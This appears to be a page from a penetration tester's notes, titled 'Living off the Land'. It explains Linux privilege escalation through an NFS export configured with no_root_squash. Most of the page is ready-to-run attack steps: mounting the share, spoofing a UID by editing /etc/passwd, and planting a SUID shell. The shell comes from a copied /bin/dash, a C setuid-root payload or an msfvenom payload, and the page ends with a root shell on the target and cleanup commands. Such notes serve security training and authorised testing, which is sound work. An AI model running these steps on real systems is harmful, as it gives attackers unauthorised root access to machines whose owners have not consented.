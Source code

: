 # Living off the Land

## 01 - Enumerate

Files were made with NFS that derives the user's ID. If the user is `root`, and **root squashing** is enabled, the ID will instead be set to the `nobody` user. Whatever we have enumerated the server through active fingerprint (go to [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Linux/File Server/NFS|NFS enumeration phase]] section to learn the practical methods) or we have compromised the Linux machine with least privileges.

Let's see the NFS configuration in the `/etc/exports`.

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Looks like the `/tmp` directory has `no_root_squash` enabled. Through the attacker's machine we have run as `root` and create a directory to mount point the NFS server.

## 02 - Exploit

Mount the **Network File System (NFS)** from the vulnerable Linux systme

```
userware@hackware-os:~$ sudo su
root@hackware-os:~# mkdir /mnt/nfs
root@hackware-os:~# mount -o rw,vers=2 <IP>:</directory_name> /mnt/nfs
```

### 2.1 - Spoof User ID

TODO: Fill in the missing steps when spoofing the UID.

```
root@hackware-os:~# ls -l /mnt/nfs/

root@hackware-os:~# useradd -m nfsuser -s /bin/bash

root@hackware-os:~# grep <nfs_user_UID> /etc/passwd
```

The syntax as it shows.

```
root@hackware-os:~# sed -ie 's/<current_user_UID>/<target_UID_to_spoof>/g' /etc/passwd
```

Spoof the UID.

```
root@hackware-os:~# sed -ie 's/1001/1014/g' /etc/passwd
```

Switch user account then read the file.

```
root@hackware-os:~# su nfsuser

nfsuser@hackware-os:~$ id

nfsuser@hackware-os:~$ cat /mnt/nfs/file.txt
```

### 2.2 - Copy Unix Shell Prompt

We can just copy the POSIX shell prompt (`/bin/dash`) to the target.

```
root@hackware-os:~# cp /bin/dash /mnt/nfs/payload

root@hackware-os:~# chmod +xs /mnt/nfs/payload
```

### 2.3 - Copy Payload

We can compile our binary in C language using the previous technique about taking advantage of the Cron Job to execute a SUID `/bin/bash`.

```
root@hackware-os:~# cat payload.c
#include <stdlib.h>
#include <unistd.h>

int main() {
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
root@hackware-os:~# gcc payload.c -o payload
```

We can either generate a `msfvenom` payload.

```
root@hackware-os:~# msfvenom -p linux/x86/exec cmd="/bin/bash -p" -f elf -o /mnt/nfs/payload
```

Change file permissions.

```
root@hackware-os:~# chmod +xs /mnt/nfs/payload
```

Now if we return to the compromised machine you can see it has a sticky bit of SUID that can be taken advantaged of all because of enabling the `no_root_squash` from the NFS configuration.

```
root@hackware-os:~# ls -lh /mnt/nfs/payload
-rwsr-sr-x 1 root root 16K Jan 21 20:29 /mnt/nfs/payload
```

Now if we check on the compromised target side we can see our shell that has been successfully copied via root

```
$ ls -lh /home/ubuntu/sharedfolder/
total 16K
-rwsr-sr-x 1 root root 16K Jan 22 01:29 payload
$ /home/ubuntu/sharedfolder/payload -p
# whoami
root
```

## 03 - Cleanup

```
# exit
$ whoami
user

root@hackware-os:~# rm /mnt/nfs/payload
root@hackware-os:~# umount /mnt/nfs
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Linux/File Server/NFS|Active Fingerprinting: NFS Network Protocol]]

### Hacktricks

- [Hacktricks: NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.html)
